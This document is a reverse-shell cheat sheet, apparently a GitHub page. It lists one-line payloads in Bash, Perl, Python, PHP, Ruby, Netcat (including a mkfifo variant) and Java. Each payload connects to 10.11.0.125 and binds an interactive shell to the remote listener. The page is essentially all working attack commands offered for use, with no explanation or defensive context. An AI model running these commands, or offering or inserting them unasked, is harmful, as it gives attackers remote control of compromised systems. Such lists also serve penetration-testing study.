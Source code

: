 ### Bash 

> bash -i >& /dev/tcp/10.11.0.125/1234 0>&1

### Perl
> perl -e 'use Socket;$i="10.11.0.125";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

### Python
> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.0.125",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

### PHP
> php -r '$sock=fsockopen("10.11.0.125",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

### Ruby
> ruby -rsocket -e'f=TCPSocket.open("10.11.0.125",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

### Netcat
> nc -e /bin/sh 10.11.0.125 1234

or if you have a different version installed:

> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.125 1234 >/tmp/f

### Java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.11.0.125/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

